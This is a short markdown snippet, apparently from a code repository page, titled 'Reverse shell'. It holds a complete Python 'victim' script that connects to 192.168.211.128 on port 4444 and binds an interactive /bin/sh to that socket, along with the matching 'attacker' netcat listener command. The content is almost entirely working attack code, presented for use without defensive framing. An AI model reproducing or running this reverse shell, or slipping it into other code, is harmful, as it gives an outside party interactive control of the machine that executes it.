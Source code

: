 ## 1. Reverse shell

+ Victim:

```python
import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.211.128",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

+ Attacker:

`nc -lvp 4444`
